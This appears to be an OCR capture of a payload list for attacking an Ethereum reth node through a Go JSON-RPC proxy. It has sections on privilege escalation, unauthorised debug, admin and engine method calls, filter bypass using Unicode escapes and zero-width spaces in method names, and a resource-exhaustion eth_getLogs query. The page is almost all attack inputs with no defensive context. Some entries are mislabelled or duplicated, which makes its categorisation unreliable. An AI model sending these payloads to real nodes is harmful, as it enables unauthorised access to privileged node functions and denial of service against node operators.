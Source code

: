 ```json
{ "jsonrpc": "2.0", "method": "eth_sendTransaction", "params": [{"from": null, "to": null, "value": null, "gasPrice": 0, "nonce": null}], "id": 1}
{ "jsonrpc": "2.0", "method": "eth_sendTransaction", "params": [{"from": null, "to": null, "value": null, "gasPrice": 0, "nonce": 1}], "id": 1}
{ "jsonrpc": "2.0", "method": "eth_sendTransaction", "params": [{"from": null, "to": null, "value": null, "gasPrice": 0, "nonce": null}], "id": 1}
```
**Privilege Escalation**
```json
{ "jsonrpc": "2.0", "method": "eth_getBlockByNumber", "params": ["latest", true], "id": 1}
{ "jsonrpc": "2.0", "method": "eth_getBlockByNumber", "params": ["latest", false], "id": 1}
{ "jsonrpc": "2.0", "method": "eth_getBlockByNumber", "params": [null, null], "id": 1}
{ "jsonrpc": "2.0", "method": "eth_getBlockByNumber", "params": [null, true], "id": 1}
{ "jsonrpc": "2.0", "method": "eth_getBlockByNumber", "params": [null, false], "id": 1}
```
**Priority Attack Vectors + Payloads**
- Try these unauthorized method calls to reth via the Go server
```json
{ "jsonrpc": "2.0", "method": "debug_traceTransaction", "params": ["0xdeadbeef..."], "id": 1}
{ "jsonrpc": "2.0", "method": "debug_traceBlockByNumber", "params": ["0xdeadbeef..."], "id": 1}
{ "jsonrpc": "2.0", "method": "debug_traceCall", "params": ["0xdeadbeef...", {"from": null, "to": null, "value": null}], "id": 1}
{ "jsonrpc": "2.0", "method": "debug_traceTransaction", "params": ["0xdeadbeef..."], "id": 1}
{ "jsonrpc": "2.0", "method": "debug_traceBlockByNumber", "params": ["0xdeadbeef..."], "id": 1}
{ "jsonrpc": "2.0", "method": "debug_traceCall", "params": ["0xdeadbeef...", {"from": "0x123...", "to": "0x456...", "value": "0x1"}], "id": 1}
{ "jsonrpc": "2.0", "method": "debug_traceTransaction", "params": ["0xdeadbeef...", {"from": null, "to": null, "value": null}], "id": 1}
{ "jsonrpc": "2.0", "method": "debug_traceBlockByNumber", "params": ["0xdeadbeef...", {"from": null, "to": null, "value": null}], "id": 1}
{ "jsonrpc": "2.0", "method": "debug_traceCall", "params": ["0xdeadbeef...", {"from": null, "to": null, "value": null}], "id": 1}
{ "jsonrpc": "2.0", "method": "admin_addPeer", "params": ["enode://..."], "id": 1}
{ "jsonrpc": "2.0", "method": "engine_getPayloadV1", "params": ["0xabc"], "id": 3}
```
**Protocol Bypass / Unicode Attacks**
```json
{ "jsonrpc": "2.0", "method": "eth_getBlockByNumber", "params": ["latest", false], "id": 1}
{ "jsonrpc": "2.0", "method": "\u0065\u0074\u0068\u005f\u0067\u0065\u0074\u0042\u006c\u006f\u0063\u006b\u0042\u0079\u004e\u0075\u006d\u0062\u0065\u0072", "params": ["latest", false], "id": 1}
{ "jsonrpc": "2.0", "method": "\u0065\u0074\u0068\u005f\u0067\u0065\u0074\u0042\u006c\u006f\u0063\u006b", "params": ["latest", false], "id": 1}
{ "jsonrpc": "2.0", "method": "\u0065\u0074\u0068\u005f\u0067\u0065\u0074\u0042\u006c\u006f\u0063\u006b", "params": ["latest", false], "id": 1}
{ "jsonrpc": "2.0", "method": "\u0065\u0074\u0068\u005f\u0067\u0065\u0074", "params": ["latest", false], "id": 1}
{ "jsonrpc": "2.0", "method": "\u0065\u0074\u0068", "params": ["latest", false], "id": 1}
{ "jsonrpc": "2.0", "method": "\u65e5\u672c", "params": ["latest", false], "id": 1}
{ "jsonrpc": "2.0", "method": "\u65e5", "params": ["latest", false], "id": 1}
{ "jsonrpc": "2.0", "method": "\u65e5", "params": ["latest", false], "id": 1}
```
- U+200B zero-width space in method name
```json
{ "jsonrpc": "2.0", "method": "eth\u200b_getBlockByNumber", "params": ["latest", false], "id": 1}
{ "jsonrpc": "2.0", "method": "eth\u200b_getBlockByNumber", "params": ["latest", false], "id": 1}
{ "jsonrpc": "2.0", "method": "eth\u200b_getBlockByNumber", "params": ["latest", false], "id": 1}
{ "jsonrpc": "2.0", "method": "\u200b\u0065\u0074\u0068\u005f\u0067\u0065\u0074\u0042\u006c\u006f\u0063\u006b", "params": ["latest", false], "id": 1}
{ "jsonrpc": "2.0", "method": "Eth_GetBlockByNumber", "params": ["latest",false], "id": 1}
```
- DoS Payloads (Resource Exhaustion)
```json
{ "jsonrpc": "2.0", "method": "eth_getLogs", "params": [{"fromBlock": "0x0", "toBlock": "latest"}], "id": 9}
```